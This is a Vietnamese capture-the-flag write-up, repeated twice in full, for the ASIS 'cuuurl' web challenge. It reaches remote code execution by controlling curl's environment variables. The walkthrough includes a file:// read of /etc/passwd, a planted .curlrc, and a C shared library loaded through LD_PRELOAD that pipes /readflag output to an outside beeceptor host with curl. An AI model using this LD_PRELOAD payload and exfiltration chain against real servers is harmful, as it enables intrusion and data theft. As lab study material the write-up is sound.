


---
tag:
   - ctf 
---
# asis-ctf

## cuuurl

> cUrl, nhưng không phải Command Injection, mà là Environment Variable to RCE .\_.
>
> Tiếp tục là một bài Whitebox tiếp =))&#x20;

### Walkthrough

Vừa vào thử luôn trang web xem có gì luôn nhỉ&#x20;



Response có đoạn xin chào mình vào để ý ở trên URL thì có đường dẫn tới file. Có vẻ bài này liên quan tới lỗ hổng Arbitrary file read roài.

Thử xem xét mã nguồn luôn nào

```python
@app.route('/')
def index():  # Poor coding skills :( can't even get process output properly
    url = request.args.get('url') or "http://localhost:8000/sayhi"
    env = request.args.get('env') or None
    outputFilename = request.args.get('file') or "myreg rets.txt"
    outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
    result = ""

    if env:
        env = env.split("=")
        env = {env[0]: env[1]}
    else:
        env = {}

    master, slave = pty.openpty()
    os.set_blocking(master, False)
    try:
        subprocess.run(["/usr/bin/curl", "--url", url], stdin=slave, stdout=slave, env=env, timeout=3, )
        result = os.read(master, 0x4000)
    except:
        os.close(slave)
        os.close(master)
        return '??', 200, {'content-type': 'text/plain;charset=utf-8'}

    os.close(slave)
    os.close(master)

    if not os.path.exists(outputFolder):
        os.mkdir(outputFolder)

    if "/" in outputFilename:
        outputFilename = secrets.token_urlsafe(0x10)

    with open(f"{outputFolder}/{outputFilename}", "wb") as f:
        f.write(result)

    return redirect(f"/view?file={outputFilename}", code=302)
```

Hàm chính được sử dụng ở route index, cho phép tải Url bất kì vào lưu và chỉ định file bất kì vào trong Folder outputs của mình (ở đây được định danh bằng mã hash của remote IP). Tên file cũng được validate để tránh mình đẩy file ra ngoài thư mục được phép. Ngoài ra mình còn được xét biến môi trường tùy ý.

```python 
@app.route('/view')
def view():
    outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
    outputFilename = request.args.get('file')

    if not outputFilename or "/" in outputFilename or not os.path.exists(f'{outputFolder}/{outputFilename}'):
        return '???', 404, {'content-type': 'text/plain;charset=utf-8'}

    with open(f'{outputFolder}/{outputFilename}', 'rb') as f:
        return f.read(), 200, {'content-type': 'text/plain;charset=utf-8'}
```

Tiếp tục hàm view này trả về nội dung file đã lưu trước đó trong thư mục của mình. Nhưng cũng được validate để tránh đọc file lung tung. Nên cũng không đọc được dữ liệu gì từ đây, bắt buộc phải điều khiển được dữ liệu đầu vào.

Hm...kinh nghiệm mình làm một số bài trước đây thì nếu cUrl cho phép nhập trực tiếp Url thì có thể Command Injection luôn ấy nhỉ? Nhưng giá trị Shell trong trong subprocess không được để là true nên giá trị thì nó cũng đẩy thành string chứ không injection được :disappointed\_relieved: Không lên thẳng được shell phải tìm các lỗ hổng khác xem, mình điều khiển được khá nhiều giá trị mà :-D .

Không thể command injection qua Url nhưng mình có thể điều khiển được nó mà? cUrl hỗ trợ nhiều giao thức [cUrl manual](https://curl.se/docs/manpage.html) trong đó có giao thức file nên mình có thể đi đâu trả được :-D

```shell
➜  ~ curl http://localhost:8000/\?url\=file:///etc/passwd -L

root:x:0:0:root:/root:/bin/bash
...
app:x:1000:1000::/home/app:/bin/sh
```

Nhưng mà flag lại không đọc được :"<

```dockerfile
FROM python:3

RUN apt-get update -y
RUN apt-get install -y curl
RUN pip3 install flask

WORKDIR /app

COPY ./flag.txt /flag.txt
COPY ./stuff/readflag /readflag
COPY ./stuff/app.py ./app.py
RUN chmod 400 /flag.txt
RUN chmod 111 /readflag
RUN chmod +s /readflag
RUN chmod +x ./app.py
RUN useradd -m app
RUN mkdir /app/outputs
RUN chown app /app/outputs


USER app
CMD [ "/app/app.py" ]
```

Quyền sở hữu root, phân quyền 400. Tức là chỉ có root mới đọc được. Nhưng may thay `readflag` được set sticky bit nên nó đọc được, cũng tức là quay lại việc tìm cách RCE chứ không phải chỉ là đọc ghi file.

Quay lại phía trên thì còn biến môi trường mình có thể điều khiển được, cũng tức là đây có thể là lựa chọn duy nhất nếu muốn RCE. Lang thang tìm kiếm theo keyword về việc RCE thông qua biến môi trường thì tìm được bài [Playing with LD\_PRELOAD](https://axcheron.github.io/playing-with-ld\_preload/).

Hmm...Tức là có thể hook được command thông qua set biến môi trường `LD_PRELOAD` à. Tiếp tục đọc thêm vào được giúp đỡ của team mình thì mình định hình được như sau:

* `LD_PRELOAD` là biến được dùng để trỏ đến các thư viện (shared lib) để tải lên trước.
* Các hàm này sẽ được tải lên đầu tiên đồng thời cũng override lại các hàm sau này.
* hàm `void _init()` sẽ được thực thi đầu tiên để khởi tạo nếu cần.
* Tránh đệ quy nếu tiếp tục gọi subprocess thì cần `unset("LD_PRELOAD")` trước khi gọi các subprocess tiếp :"< .

Như vậy là việc đầu tiên cần làm là tạo ra một shared lib để có thể đẩy cho các bước sau đó, để khi thực thi cUrl ta sẽ đặt biến môi trường tới nó để Trigger được lệnh.

Lâu không code `C` với việc ngáo ngơ các biến môi trường trên thì với sự giúp đỡ của team mình tạo được thư viện có thể trigger để làm payload như sau.

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("/readflag | curl https://biennd4.free.beeceptor.com/ -d @-");
}
```

Complie nó thành shared lib và đẩy lên server để tẹo tải về bằng cUrl.

```shell
➜  ~ gcc -fPIC -shared -o hsvcs.so hsvcs.c -nostartfiles
```

Tiếp tục kéo về thưc mục của mình và thêm Env thôi nhưng lại có lỗi xảy ra đó là cUrl không hiển thị file binary mà bắt buộc phải đặt output ra file. Nhưng mình có thể chèn thêm được gì ngoài Url đâu :cry:

Tiếp tục một sự giúp đỡ đến từ team HsVcs khi cho biết cUrl sẽ sử dụng config mặc định thông qua `.curlrc`, nó thường lưu tại `$HOME/.curlrc` với HOME ở đây tham khảo [cUrl manual](https://curl.se/docs/manpage.html) là biến môi trường mà mình đặt cho cUrl mà mình có thể điều khiển được biến môi trường. Vậy là việc đầu tiên phải là đẩy lên được file config đẩy lên để sử dụng nó để kéo được thư viện kia về.

```shell
➜  ~ curl http://65.108.152.108:5001/\?url\=https://biennd4.free.beeceptor.com/config\&file\=.curlrc -L                         
--output /tmp/hsvcs.so% 
```

Để kéo thư viện kia về cần trỏ thư mục của mình thành `$HOME`, nó cũng không có gì do việc tính hash remote ip `hashlib.md5(request.remote_addr.encode()).hexdigest()` của mình nhưng không hiểu sao mình dùng VPS mới ra đúng được folder. Hay máy mình dùng IPv6 bị NAT lại thành IPv4 nên có lỗi này nhỉ.

```shell
➜  ~ curl http://65.108.152.108:5001/\?url\=https://d3s34.me/hsvcs.so\&env\=HOME%3D/app/outputs/8821b33244ff93dd962f963b7284dfeb
??%
```

Việc cuối cùng là đặt lại `LD_PRELOAD` để lấy flag thôi :sunglasses:.

```shell
➜  ~ http://65.108.152.108:5001/\?url\=https://d3s34.me/&env=LD_PRELOAD%3d/tmp/hsvcs.so
```



---
tag:
   - ctf 
---
# asis-ctf

## cuuurl

> cUrl, nhưng không phải Command Injection, mà là Environment Variable to RCE .\_.
>
> Tiếp tục là một bài Whitebox tiếp =))&#x20;

### Walkthrough

Vừa vào thử luôn trang web xem có gì luôn nhỉ&#x20;


Response có đoạn xin chào mình vào để ý ở trên URL thì có đường dẫn tới file. Có vẻ bài này liên quan tới lỗ hổng Arbitrary file read roài.

Thử xem xét mã nguồn luôn nào

```python
@app.route('/')
def index():  # Poor coding skills :( can't even get process output properly
    url = request.args.get('url') or "http://localhost:8000/sayhi"
    env = request.args.get('env') or None
    outputFilename = request.args.get('file') or "myreg rets.txt"
    outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
    result = ""

    if env:
        env = env.split("=")
        env = {env[0]: env[1]}
    else:
        env = {}

    master, slave = pty.openpty()
    os.set_blocking(master, False)
    try:
        subprocess.run(["/usr/bin/curl", "--url", url], stdin=slave, stdout=slave, env=env, timeout=3, )
        result = os.read(master, 0x4000)
    except:
        os.close(slave)
        os.close(master)
        return '??', 200, {'content-type': 'text/plain;charset=utf-8'}

    os.close(slave)
    os.close(master)

    if not os.path.exists(outputFolder):
        os.mkdir(outputFolder)

    if "/" in outputFilename:
        outputFilename = secrets.token_urlsafe(0x10)

    with open(f"{outputFolder}/{outputFilename}", "wb") as f:
        f.write(result)

    return redirect(f"/view?file={outputFilename}", code=302)
```

Hàm chính được sử dụng ở route index, cho phép tải Url bất kì vào lưu và chỉ định file bất kì vào trong Folder outputs của mình (ở đây được định danh bằng mã hash của remote IP). Tên file cũng được validate để tránh mình đẩy file ra ngoài thư mục được phép. Ngoài ra mình còn được xét biến môi trường tùy ý.

```python 
@app.route('/view')
def view():
    outputFolder = f"./outputs/{hashlib.md5(request.remote_addr.encode()).hexdigest()}"
    outputFilename = request.args.get('file')

    if not outputFilename or "/" in outputFilename or not os.path.exists(f'{outputFolder}/{outputFilename}'):
        return '???', 404, {'content-type': 'text/plain;charset=utf-8'}

    with open(f'{outputFolder}/{outputFilename}', 'rb') as f:
        return f.read(), 200, {'content-type': 'text/plain;charset=utf-8'}
```

Tiếp tục hàm view này trả về nội dung file đã lưu trước đó trong thư mục của mình. Nhưng cũng được validate để tránh đọc file lung tung. Nên cũng không đọc được dữ liệu gì từ đây, bắt buộc phải điều khiển được dữ liệu đầu vào.

Hm...kinh nghiệm mình làm một số bài trước đây thì nếu cUrl cho phép nhập trực tiếp Url thì có thể Command Injection luôn ấy nhỉ? Nhưng giá trị Shell trong trong subprocess không được để là true nên giá trị thì nó cũng đẩy thành string chứ không injection được :disappointed\_relieved: Không lên thẳng được shell phải tìm các lỗ hổng khác xem, mình điều khiển được khá nhiều giá trị mà :-D .

Không thể command injection qua Url nhưng mình có thể điều khiển được nó mà? cUrl hỗ trợ nhiều giao thức [cUrl manual](https://curl.se/docs/manpage.html) trong đó có giao thức file nên mình có thể đi đâu trả được :-D

```shell
➜  ~ curl http://localhost:8000/\?url\=file:///etc/passwd -L

root:x:0:0:root:/root:/bin/bash
...
app:x:1000:1000::/home/app:/bin/sh
```

Nhưng mà flag lại không đọc được :"<

```dockerfile
FROM python:3

RUN apt-get update -y
RUN apt-get install -y curl
RUN pip3 install flask

WORKDIR /app

COPY ./flag.txt /flag.txt
COPY ./stuff/readflag /readflag
COPY ./stuff/app.py ./app.py
RUN chmod 400 /flag.txt
RUN chmod 111 /readflag
RUN chmod +s /readflag
RUN chmod +x ./app.py
RUN useradd -m app
RUN mkdir /app/outputs
RUN chown app /app/outputs


USER app
CMD [ "/app/app.py" ]
```

Quyền sở hữu root, phân quyền 400. Tức là chỉ có root mới đọc được. Nhưng may thay `readflag` được set sticky bit nên nó đọc được, cũng tức là quay lại việc tìm cách RCE chứ không phải chỉ là đọc ghi file.

Quay lại phía trên thì còn biến môi trường mình có thể điều khiển được, cũng tức là đây có thể là lựa chọn duy nhất nếu muốn RCE. Lang thang tìm kiếm theo keyword về việc RCE thông qua biến môi trường thì tìm được bài [Playing with LD\_PRELOAD](https://axcheron.github.io/playing-with-ld\_preload/).

Hmm...Tức là có thể hook được command thông qua set biến môi trường `LD_PRELOAD` à. Tiếp tục đọc thêm vào được giúp đỡ của team mình thì mình định hình được như sau:

* `LD_PRELOAD` là biến được dùng để trỏ đến các thư viện (shared lib) để tải lên trước.
* Các hàm này sẽ được tải lên đầu tiên đồng thời cũng override lại các hàm sau này.
* hàm `void _init()` sẽ được thực thi đầu tiên để khởi tạo nếu cần.
* Tránh đệ quy nếu tiếp tục gọi subprocess thì cần `unset("LD_PRELOAD")` trước khi gọi các subprocess tiếp :"< .

Như vậy là việc đầu tiên cần làm là tạo ra một shared lib để có thể đẩy cho các bước sau đó, để khi thực thi cUrl ta sẽ đặt biến môi trường tới nó để Trigger được lệnh.

Lâu không code `C` với việc ngáo ngơ các biến môi trường trên thì với sự giúp đỡ của team mình tạo được thư viện có thể trigger để làm payload như sau.

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    system("/readflag | curl https://biennd4.free.beeceptor.com/ -d @-");
}
```

Complie nó thành shared lib và đẩy lên server để tẹo tải về bằng cUrl.

```shell
➜  ~ gcc -fPIC -shared -o hsvcs.so hsvcs.c -nostartfiles
```

Tiếp tục kéo về thưc mục của mình và thêm Env thôi nhưng lại có lỗi xảy ra đó là cUrl không hiển thị file binary mà bắt buộc phải đặt output ra file. Nhưng mình có thể chèn thêm được gì ngoài Url đâu :cry:

Tiếp tục một sự giúp đỡ đến từ team HsVcs khi cho biết cUrl sẽ sử dụng config mặc định thông qua `.curlrc`, nó thường lưu tại `$HOME/.curlrc` với HOME ở đây tham khảo [cUrl manual](https://curl.se/docs/manpage.html) là biến môi trường mà mình đặt cho cUrl mà mình có thể điều khiển được biến môi trường. Vậy là việc đầu tiên phải là đẩy lên được file config đẩy lên để sử dụng nó để kéo được thư viện kia về.

```shell
➜  ~ curl http://65.108.152.108:5001/\?url\=https://biennd4.free.beeceptor.com/config\&file\=.curlrc -L                         
--output /tmp/hsvcs.so% 
```

Để kéo thư viện kia về cần trỏ thư mục của mình thành `$HOME`, nó cũng không có gì do việc tính hash remote ip `hashlib.md5(request.remote_addr.encode()).hexdigest()` của mình nhưng không hiểu sao mình dùng VPS mới ra đúng được folder. Hay máy mình dùng IPv6 bị NAT lại thành IPv4 nên có lỗi này nhỉ.

```shell
➜  ~ curl http://65.108.152.108:5001/\?url\=https://d3s34.me/hsvcs.so\&env\=HOME%3D/app/outputs/8821b33244ff93dd962f963b7284dfeb
??%
```

Việc cuối cùng là đặt lại `LD_PRELOAD` để lấy flag thôi :sunglasses:.

```shell
➜  ~ http://65.108.152.108:5001/\?url\=https://d3s34.me/&env=LD_PRELOAD%3d/tmp/hsvcs.so
```


